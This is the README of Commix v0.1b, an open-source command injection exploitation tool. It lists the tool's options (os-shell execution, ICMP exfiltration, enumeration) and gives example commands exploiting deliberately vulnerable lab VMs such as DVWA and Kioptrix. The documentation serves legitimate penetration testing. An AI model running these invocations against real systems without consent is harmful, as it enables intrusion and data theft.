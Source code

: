 	                                       __
	   ___    ___     ___ ___     ___ ___ /\_\   __  _ 
	  /'___\ / __`\ /' __` __`\ /' __` __`\/\ \ /\ \/'\
	 /\ \__//\ \L\ \/\ \/\ \/\ \/\ \/\ \/\ \ \ \\/>  </
	 \ \____\ \____/\ \_\ \_\ \_\ \_\ \_\ \_\ \_\/\_/\_\
	  \/____/\/___/  \/_/\/_/\/_/\/_/\/_/\/_/\/_/\//\/_/ { v0.1b }

	+--
	Automated All-in-One OS Command Injection and Exploitation Tool
	Copyright (c) 2015 Anastasios Stasinopoulos (@ancst)
	+--

#General Information

Commix (short for [comm]and [i]njection e[x]ploiter) has a simple environment and it can be used, from web developers, penetration testers or even security researchers to test web applications with the view to find bugs, errors or vulnerabilities related to command injection attacks. By using this tool, it is very easy to find and exploit a command injection vulnerability in a certain vulnerable parameter or string. Commix is written in Python programming language.


#Disclaimer
The tool is only for testing and academic purposes and can only be used where strict consent has been given. Do not use it for illegal purposes!!


#Requirements
[Python](http://www.python.org/download/) version **2.6.x** or **2.7.x** is required for running this program.

#Installation

Commix comes pre-installed on the following Linux distributions:

- [BlackArch](http://blackarch.org/)

Download commix by cloning the Git repository:

    git clone https://github.com/stasinopoulos/commix.git commix


#Usage
    Usage: python commix.py [options]

####Options
    -h, --help            Show help and exit.
    --verbose             Enable the verbose mode.
    --install             Install 'commix' to your system.
    --version             Show version number and exit.
    --update              Check for updates (apply if any) and exit.

####Target
    This options has to be provided, to define the target URL.

    --url=URL           Target URL
    --url-reload        Reload target URL after command execution.

####Request
    These options can be used, to specify how to connect to the target
    URL.

    --host=HOST         HTTP Host header.
    --referer=REFERER   HTTP Referer header.
    --user-agent=AGENT  HTTP User-Agent header.
    --cookie=COOKIE     HTTP Cookie header.
    --random-agent      Use a randomly selected HTTP User-Agent header.
    --headers=HEADERS   Extra headers (e.g. 'Header1:Value1\nHeader2:Value2').
    --proxy=PROXY       Use a HTTP proxy (e.g. '127.0.0.1:8080').
    --auth-url=AUTH_..  Login panel URL.
    --auth-data=AUTH..  Login parameters and data.
    --auth-cred=AUTH..  HTTP Basic Authentication credentials (e.g.
                        'admin:admin').
####Enumeration
    These options can be used, to enumerate the target host.

    --current-user	Retrieve current user.
    --hostname		Retrieve server hostname.
    --is-root		Check if the current user have root privs.

####Injection
    These options can be used, to specify which parameters to inject and
    to provide custom injection payloads.

    --data=DATA         POST data to inject (use 'INJECT_HERE' tag to specify
                        the testable parameter).
    --suffix=SUFFIX     Injection payload suffix string.
    --prefix=PREFIX     Injection payload prefix string.
    --technique=TECH    Specify a certain injection technique : 'classic',
                        'eval-based', 'time-based' or 'file-based'.
    --maxlen=MAXLEN     The length of the output on time-based technique
                        (Default: 10000 chars).
    --delay=DELAY       Set Time-delay for time-based and file-based
                        techniques (Default: 1 sec).
    --base64            Use Base64 (enc)/(de)code trick to prevent false-
                        positive results.
    --tmp-path=TMP_P..  Set remote absolute path of temporary files directory.
    --root-dir=SRV_R..  Set remote absolute path of web server's root
                        directory (Default: /var/www/).
    --icmp-exfil=IP_..  Use the ICMP exfiltration technique (e.g.
                        'ip_src=192.168.178.1,ip_dst=192.168.178.3').
    --alter-shell       Use an alternative os-shell (Python). Available only
                        for 'tempfile-based' injections.
    --os-shell=OS_SH..  Execute a single operating system command.


####Usage Examples
**Exploiting [Damn Vulnerable Web App] (http://www.dvwa.co.uk/):**

    python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=INJECT_HERE&submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"
    
**Exploiting [php-Charts 1.0] (http://www.exploit-db.com/exploits/25496/) using injection payload suffix & prefix string:**

    python commix.py --url="http://192.168.178.55/php-charts_v1.0/wizard/index.php?type=INJECT_HERE" --prefix="'" --suffix="//"
    
**Exploiting [OWASP Mutillidae] (https://www.owasp.org/index.php/Category:OWASP_Mutillidae) using extra headers and HTTP proxy:**

    python commix.py --url="http://192.168.178.46/mutillidae/index.php?popUpNotificationCode=SL5&page=dns-lookup.php" --data="target_host=INJECT_HERE" --headers="Accept-Language:fr\nETag:123\n" --proxy="127.0.0.1:8081"

**Exploiting [Persistence] (https://www.vulnhub.com/entry/persistence-1,103/) using ICMP exfiltration technique :**

    su -c "python commix.py --url="http://192.168.178.8/debug.php" --data="addr=127.0.0.1" --icmp-exfil="ip_src=192.168.178.5,ip_dst=192.168.178.8""

**Exploiting [Kioptrix: 2014 (#5)] (https://www.vulnhub.com/entry/kioptrix-2014-5,62/) using custom user-agent and specified injection technique:**

    python commix.py --url="http://192.168.178.6:8080/phptax/drawimage.php?pfilez=INJECT_HERE&pdf=make" --user-agent="Mozilla/4.0 Mozilla4_browser" --technique="file-based" --root-dir="/"


####Command injection testbeds
A collection of pwnable VMs, that includes web apps vulnerable to command injections.
- [Damn Vulnerable Web App] (http://www.dvwa.co.uk/)
- [OWASP: Mutillidae] (https://www.owasp.org/index.php/Category:OWASP_Mutillidae)
- [bWAPP: bee-box (v1.6)] (http://www.itsecgames.com/)
- [Persistence] (https://www.vulnhub.com/entry/persistence-1,103/)
- [Pentester Lab: Web For Pentester] (https://www.vulnhub.com/entry/pentester-lab-web-for-pentester,71/)
- [Pentester Academy: Command Injection ISO: 1] (https://www.vulnhub.com/entry/command-injection-iso-1,81/)
- [SpiderLabs: MCIR (ShelLOL)](https://github.com/SpiderLabs/MCIR/tree/master/shellol)
- [Kioptrix: 2014 (#5)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)
- [w3af-moth] (https://github.com/andresriancho/w3af-moth/)
- [...]

####Exploitation Demos
- [Exploiting DVWA](https://www.youtube.com/watch?v=PT4uSTCxKJU)
- [Exploiting bWAPP](https://www.youtube.com/watch?v=zqI8NcHfboo)

[![][img]][txt]
[img]: https://cdn3.iconfinder.com/data/icons/peelicons-vol-1/50/Twitter-32.png (Follow @commixproject :))
[txt]: http://www.twitter.com/commixproject
